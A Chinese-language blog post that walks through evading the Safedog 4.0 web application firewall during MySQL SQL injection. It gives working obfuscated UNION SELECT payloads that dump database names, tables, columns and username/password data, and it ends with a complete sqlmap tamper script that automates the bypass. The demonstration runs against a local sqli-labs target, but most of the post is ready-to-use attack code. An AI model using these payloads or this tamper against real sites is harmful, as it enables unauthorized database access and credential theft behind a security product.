```yaml
---
title: "从过狗到编写tamper"
date: 2019-10-18T14:24:15+08:00
draft: false
tags: ['bypass']
categories: ['Bypass']
---
```



## 前言
在sql注入的时候，很可能会碰到各种厂商的waf，bypass之后，以后每次都要手工进行绕过，这样很麻烦。<!--more-->我们可以自己编写一个tamper，这样就达到一个自动化bypass的功能了

## 0x01 安全狗拦截的点
- and 1
只要and后面接数字，安全狗就会拦截
- order by
order 后面接by，安全狗就会拦截
- USER()
user后面接括号，安全狗就会拦截
- union select 
union后面接select,安全狗就会拦截



## 0x02 bypass安全狗
具体过程不说了，贴出payload<br>
1、查询用户
``` mysql
union/*!11440/**/select*/%201,hex(user/**/()),3
```

2、查询库名
``` mysql
union/*!11440/**/select*/%201,group_concat(schema_name),3 from `information_schema`.schemata --+
```

3、查询表名
```
union/*!11440/**/select*/ 1,group_concat(table_name),3 from `information_schema`.tables where table_schema='security' --+
```
4、查询列名
```
 union/*!11440/**/select*/ 1,group_concat(column_name),3 from `information_schema`.columns where table_name='users' --+
```
5、查询数据
```
 union/*!11440/**/select*/ 1,group_concat(username,password),3 from `users` --+
```

## 0x03 tamper结构
tamper由三大结构组成，如下:
```Python
Copyright (c) 2006-2017 sqlmap developers (http://sqlmap.org/)
See the file 'doc/COPYING' for copying permission
Author:J8sec.com
"""

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW

def dependencies():
     pass

def tamper(payload, **kwargs):
      pass
```
### PROIORITY
PRIORITY是定义tamper的优先级，如果使用者使用了多个tamper，sqlmap就会根据每个tamper定义PRIORITY的参数等级来优先使用等级较高的tamper，PRIORITY有以下几个参数:<br>
   - LOWEST = -100
   - LOWER = -50
   - LOW = -10
   - NORMAL = 0
   - HIGH = 10
   - HIGHER = 50
   - HIGHEST = 100

值越高，优先级越高。因为我们这里只是绕过安全狗，随便设置个值就ok。

### dependencies  
dependencies主要是提示用户，这个tamper支持哪些数据库，具体代码如下:

``` Python
from lib.core.enums import PRIORITY
from lib.core.common import singleTimeWarnMessage
from lib.core.enums import DBMS
import os

__priority__ = PRIORITY.LOW

def dependencies():
    singleTimeWarnMessage("Bypass 安全狗4.0 '%s' 只针对 %s" % (os.path.basename(__file__).split(".")[0], DBMS.MYSQL))

```
效果如下图:
![avatar](https://ae01.alicdn.com/kf/Ucc5c223016814f338e503e275092e982z.png)

DBMS.MYSQL这个参数代表的是Mysql，其他数据库的参数如下:

   - ACCESS = "Microsoft Access"
   - DB2 = "IBM DB2"
   - FIREBIRD = "Firebird"
   - MAXDB = "SAP MaxDB"
   - MSSQL = "Microsoft SQL Server"
   - MYSQL = "MySQL"
   - ORACLE = "Oracle"
   - PGSQL = "PostgreSQL"
   - SQLITE = "SQLite"
   - SYBASE = "Sybase"
   - HSQLDB = "HSQLDB"



### Tamper
tamper这个函数是tamper最重要的函数，你要实现的功能，全部写在这个函数里<br>payload这个参数就是sqlmap的原始注入payload，我们要实现绕过，一般就是针对这个payload的修改。kwargs是针对http头部的修改，如果你bypass，是通过修改http头，就需要用到这个



## 0x04 编写tamper

### 环境
攻击机:windows 10 安装有sqlmap,burpsuite<br>
靶机:windows 7 安装有sqli-labs注入环境，安全狗4.0 ip:

### 思路
我们利用Burpsuite来抓sqlmap的包，然后一步步进行绕过

### 编写过程
sqlmap敲如下命令
``` 
sqlmap.py -u http://192.168.1.120/sql/Less-1/?id=1 --proxy="http://127.0.0.1:8080" --random-agent
```
这里解释下为什么要加--random-agent这个参数，因为安全狗看到sqlmap默认的agent头会拦截，所以我们得加这个随即头参数来进行绕过

1、识别注入
抓到的sqlmap包如图:
![avatar](https://ae01.alicdn.com/kf/Ud23a8d50cd684b9a8936bc7d81660bc6X.png)
安全狗默认不会拦截，sqlmap就会判断可能存在注入
![avatar](https://ae01.alicdn.com/kf/U9576728bf2244f16986b088c8f793fa51.png)

继续抓包
![avatar](https://ae01.alicdn.com/kf/Ua7099160baf34e99885c448a8ac7acbe9.png)
被安全狗拦截了，前面说了，安全狗拦截and 加数字，现在我们开始编写tamper
```Python
def tamper(payload, **kwargs):
    payload=payload.replace('AND','/*!11440AND*/')
```
把and替换成我们前面bypass的payload，就不会拦截了。后面的order by，user(),union select同理，这里我就不一一介绍了，只讲下SESSION_USER()

2、识别数据库类型
绕过了and之后，sqlmap会识别数据库类型
![avatar](https://ae01.alicdn.com/kf/U9d35ec0263964e048e9ec8b9dc7bc5956.png)
虽然我们绕过了user()这个函数，安全狗还是进行了拦截,经过测试，发现安全狗拦截了SESSION_USER(),本来是想把SESSION_USER按照USER()进行绕过，也就是
hex(SESSION_user/**/()),发现会报错,如图:
![avatar](https://ae01.alicdn.com/kf/U98c466f05c36494c9c29aff8ffd9f65d6.png)
因为安全狗拦截函数是拦截名称和括号之间，既然名称那饶不了，我们就在括号里做文章。最后经过测试,payload为:hex(SESSION_USER(-- B%0a))


3、注入
因为后面payload大同小异，我们只要把sqlmap原始的UNION ALL SELECT替换成union/*!11440/**/select*/就好了


## 成品

```Python
#!/usr/bin/env python

"""
Copyright (c) 2006-2017 sqlmap developers (http://sqlmap.org/)
See the file 'doc/COPYING' for copying permission
Author:J8sec.com
"""

from lib.core.enums import PRIORITY
from lib.core.common import singleTimeWarnMessage
from lib.core.enums import DBMS
import os

__priority__ = PRIORITY.LOW

def dependencies():
    singleTimeWarnMessage("Bypass 安全狗4.0 '%s' 只针对 %s" % (os.path.basename(__file__).split(".")[0], DBMS.MYSQL))

def tamper(payload, **kwargs):
    payload=payload.replace('AND','/*!11440AND*/')
    payload=payload.replace('ORDER','/*!11440order*/')
    payload=payload.replace('USER())','hex(user/**/()))')
    payload=payload.replace('SESSION_USER()','hex(SESSION_USER(-- B%0a))')
    payload=payload.replace('UNION ALL SELECT','union/*!11440/**/select*/')
    return payload
```
最后效果如图:
![avatar](https://ae01.alicdn.com/kf/Ue8a0066c15f54e61a40c798b5da70fe9w.png)



## 参考文章
https://www.jianshu.com/p/c24727dd1f7a
https://github.com/aleenzz/MYSQL_SQL_BYPASS_WIKI